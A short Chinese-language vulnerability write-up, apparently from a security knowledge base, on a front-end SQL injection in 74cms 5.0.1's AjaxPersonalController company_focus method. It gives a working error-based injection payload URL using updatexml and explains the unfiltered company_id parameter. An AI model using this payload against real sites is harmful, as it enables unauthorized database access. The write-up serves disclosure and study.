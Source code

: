 74cms v5.0.1 前台sql注入
========================

一、漏洞简介
------------

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

二、漏洞影响
------------

三、复现过程
------------

### 具体信息

文件位置：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php

方法：function company\_focus(\$company\_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

    http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a

![](./resource/74cmsv5.0.1前台sql注入/media/rId26.png)

### 源码分析：

文件：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php

company\_focus
方法是参数化函数，\$company\_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![](./resource/74cmsv5.0.1前台sql注入/media/rId28.png)

跟踪add\_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![](./resource/74cmsv5.0.1前台sql注入/media/rId29.png)
